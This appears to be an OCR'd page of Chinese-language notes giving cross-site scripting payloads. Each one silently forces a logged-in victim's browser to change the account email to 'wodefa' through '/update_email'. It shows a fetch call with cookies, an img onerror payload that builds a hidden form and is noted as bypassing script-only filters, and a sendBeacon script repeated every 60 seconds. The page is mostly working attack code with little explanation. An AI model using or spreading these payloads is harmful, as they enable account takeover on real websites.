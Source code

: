 注意 `credentials:'same-origin'` 确保发送同源 cookies（默认同源也会发送，但显式写更清楚）。优点与 XHR 类似，语法更简洁。

```
<img src=x onerror="
  fetch('/update_email',{
    method:'POST',
    credentials:'same-origin',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'email=wodefa'
  }).then(r=>{}).catch(e=>{});
">
```



------

# 4. onerror 图片触发（当页面禁止 `<script>` 标签但允许属性事件时）

有些场景页面禁止 `<script>` 标签但允许内联事件，这个能在 img onerror 上执行 JS（风险更高，某些过滤器会杜绝）：

```html
<img src=x onerror="(function(){var f=document.createElement('form');f.style.display='none';f.method='POST';f.action='/update_email';var i=document.createElement('input');i.name='email';i.value='wodefa';f.appendChild(i);document.body.appendChild(f);f.submit();})();">
```

优点：能绕过仅过滤 `<script>` 的简单过滤器。缺点：更易被防护规则检测并拦截。





------

# 5. 周期/重复触发（每次访问或间隔重复改邮箱）

如果想在每次页面加载或每隔一段时间重复执行：

```html
<script>
function change(){
  navigator.sendBeacon('/update_email', new URLSearchParams({email:'wodefa'}));
}
// 每次加载尝试一次
change();
// 每 60 秒再试一次（可按需改）
setInterval(change, 60000);
</script>
```

注意：`navigator.sendBeacon` 的 `Content-Type` 不是 `application/x-www-form-urlencoded`，但多数后端仍能解析 `URLSearchParams`；若后端严格要求头则用 fetch/XHR。Beacon 在页面卸载时也能可靠发送。
